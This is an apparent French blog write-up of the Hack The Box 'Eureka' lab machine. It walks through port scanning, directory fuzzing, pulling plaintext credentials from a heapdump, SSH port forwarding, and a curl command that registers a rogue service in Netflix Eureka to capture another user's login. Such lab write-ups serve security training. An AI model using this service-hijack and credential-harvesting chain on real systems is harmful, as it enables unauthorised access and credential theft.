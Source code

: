 ```yaml
---
title: "Eureka-HTB"
date: 2025-04-29T20:00:00+02:00
draft: false
tags: ["hackthebox", "writeup"]
categories: ["writeup"]
summary: "Difficulte : esay"
cover:
  image: "images/" # Mets une image ici si tu veux une couverture
  alt: "eureka"
  caption: "eureka"
showToc: true
tocOpen: true
---
```

# Enumeration 
## Nmap 
# Enumeration

## Nmap
Nous commençons par exécuter une analyse nmap sur la cible : 

![Texte alternatif](/images/20250429111659.png)

Le scan révèle que les ports **22**, **80** et **8761** sont ouverts sur la cible.

En explorant le port **80**, nous avons découvert un site web accessible à l'adresse **furni.htb**.

![Texte alternatif](/images/20250429112028.png)

Afin d’identifier d’éventuelles ressources non listées accessibles sur le serveur web de la cible `http://furni.htb`, un fuzzing de répertoires a été réalisé à l’aide de l’outil `ffuf`. 


```
ffuf  -u http://furni.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
```


Cela m'a permis d’identifier plusieurs sous-domaines associés à la cible. Ces sous-domaines peuvent héberger des fichiers, dossiers ou applications supplémentaires potentiellement intéressants à la suite de l’analyse.

![Texte alternatif](/images/20250429114201.png)

Après avoir téléchargé l'ensemble des fichiers disponibles et entamé leur analyse un par un, j'ai identifié un fichier nommé **`headpdump`**. En examinant son contenu, j'ai recherché la présence éventuelle d'informations sensibles telles que des identifiants ou des mots de passe. Cette inspection m’a permis de mettre en évidence des données potentiellement intéressantes.

![Texte alternatif](/images/20250429115759.png)

password=0sc@r190_S0l!dP@sswd, user=oscar190

http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/!

![Texte alternatif](/images/20250429122014.png)

Oscar parvient à se connecter via SSH, mais j'ai également repéré le service **Eureka**. Afin d'y accéder, je vais configurer une redirection de port pour pouvoir me connecter au port **8761**.


```
ssh -L 8761:localhost:8761 oscar190@10.10.11.66
```


Les identifiants récupérés seront testés sur l’ensemble des interfaces de connexion identifiées précédemment.
login: EurekaSrvr
password: 0scarPWDisTheB3st

![Texte alternatif](/images/20250429122335.png)

Nous allons déployer un service factice basé sur l’exemple "Hacking Netflix Eureka", dans le but de simuler une présence légitime au sein de l’environnement et d’exploiter la confiance accordée aux services enregistrés.


```
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE -H 'Content-Type: application/json' -d '{
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "YOURIP",  
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "YOURIP",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": { "$": 8081, "@enabled": "true" },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
```


![Texte alternatif](/images/20250429131113.png)

Nous avons réussi à extraire le nom d'utilisateur et le mot de passe associés au service ciblé, ce qui permet une élévation des privilèges ou un accès non autorisé aux ressources internes.


```
username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=JIVbCzoWJkTBdEsVTbZrxfWiTajQj9Lg9FvXWFIcckIGJ5AuQOM_aFknH3DsRigsLJtf88DBYMm1vefNwG7vYGd-SyA1QqhP 
```

!
![Texte alternatif](/images/20250429132310.png)

password : IL!veT0Be&BeT0L0ve

![Texte alternatif](/images/20250429132432.png)

![Texte alternatif](/images/20250429133417.png)

![Texte alternatif](/images/20250429133338.png)

[CyberChef - GCHQ](https://gchq.github.io/CyberChef/)

[Hacking Netflix Eureka - Backbase](https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka)
